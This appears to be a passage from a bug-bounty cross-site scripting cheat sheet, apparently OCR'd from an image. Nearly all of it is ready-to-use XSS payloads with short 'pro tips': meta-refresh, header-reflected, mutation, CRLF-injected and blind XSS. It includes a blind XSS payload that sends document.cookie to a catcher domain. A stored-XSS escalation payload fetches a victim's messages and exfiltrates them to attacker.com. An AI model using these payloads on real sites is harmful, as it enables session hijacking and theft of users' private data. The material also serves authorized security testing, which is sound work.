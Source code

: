 ### Meta Tag Refresh Injection
```javascript
<meta http-equiv="refresh" content="0;url=javascript:alert(document.domain)">
```
*Pro tip: Check for inputs that affect HTTP headers or meta tags.*

### Hidden XSS in HTTP Response Headers
```
// Submit in User-Agent header
<script>alert(document.domain)</script>

// If reflected in page
X-XSS-Protection: 0; script-src 'unsafe-inline'; <script>alert(document.domain)</script>
```
*Pro tip: Modifying HTTP headers like User-Agent & Referer can reveal unusual XSS vectors.*

## Advanced Bug Hunting Techniques

### Blind XSS Hunting
```javascript
<script src="https://YOUR-DOMAIN.xss.ht"></script>

// Or more sophisticated:
<script>
fetch('https://YOUR-DOMAIN.xss.ht/c/'+btoa(document.cookie+"|"+document.domain+"|"+document.URL))
</script>
```
*Pro tip: Use services like XSS Hunter or your own server to catch blind XSS vulnerabilities that appear in admin panels.*

### Mutation XSS
```javascript
<noscript><p title="</noscript><img src=x onerror=alert(document.domain)>">
<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;img src=1 onerror=alert(document.domain)&gt;">
```
*Why it works: HTML parsing inconsistencies create XSS when browsers mutate HTML during rendering.*

### CRLF-Based XSS
```
%0d%0aContent-Type: text/html%0d%0a%0d%0a<script>alert(document.domain)</script>
```
*Pro tip: Look for inputs that might be reflected in HTTP response headers.*

### Self-XSS to Stored XSS Escalation
```javascript
// In profile fields that other users can see:
<img src=x id="</script><script>fetch('/api/messages').then(r=>r.json()).then(d=>fetch('https://attacker.com/steal?data='+btoa(JSON.stringify(d))))</script>">
```
*Pro tip: Target profile/user settings that are displayed to other users.*
